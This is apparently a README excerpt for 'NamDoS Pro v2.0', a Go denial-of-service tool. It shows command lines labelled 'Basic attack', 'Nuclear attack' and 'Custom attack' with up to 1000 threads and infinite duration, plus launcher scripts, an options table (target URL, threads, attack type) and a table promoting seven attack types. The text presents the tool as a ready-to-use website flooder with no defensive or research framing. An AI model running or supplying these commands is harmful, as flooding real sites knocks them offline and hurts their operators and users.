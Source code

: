 ### Command Line Mode
```bash
# Basic attack
go run namdos_pro.go -site https://example.com -threads 100 -duration 60

# Nuclear attack
go run namdos_pro.go -site https://example.com -threads 1000 -duration 300 -type mixed_attack

# Quick test
go run namdos_pro.go -test -site https://example.com

# Custom attack
go run namdos_pro.go -site https://example.com -threads 500 -duration 0 -delay 10 -timeout 60 -type http_flood
```

### Using Launcher Scripts
```bash
# Interactive launcher
~/start_namdos_pro.sh

# Quick test
~/test_namdos_pro.sh https://example.com

# Command line launcher
~/namdos-pro/run_namdos_pro.sh -site https://example.com
```

## 🔧 Command Line Options

| Option | Description | Default |
|--------|-------------|---------|
| `-site` | Target URL to attack | Required |
| `-threads` | Number of threads | 100 |
| `-duration` | Attack duration in seconds (0 = infinite) | 0 |
| `-delay` | Delay between requests in milliseconds | 0 |
| `-timeout` | Request timeout in seconds | 30 |
| `-type` | Attack type | mixed_attack |
| `-test` | Quick test mode | false |

## 📊 Performance Comparison

| Feature | Original NamDoS | NamDoS Pro v2.0 |
|---------|-----------------|-----------------|
| **Language** | Golang | Golang |
| **Max Threads** | 4096 | 1000+ |
| **Attack Types** | 1 (HTTP Flood) | 7 (Multiple) |
| **Real-time Stats** | ❌ | ✅ |
| **Progress Tracking** | ❌ | ✅ |
| **ETA Calculation** | ❌ | ✅ |
| **Memory Optimization** | ❌ | ✅ |
| **CPU Optimization** | ❌ | ✅ |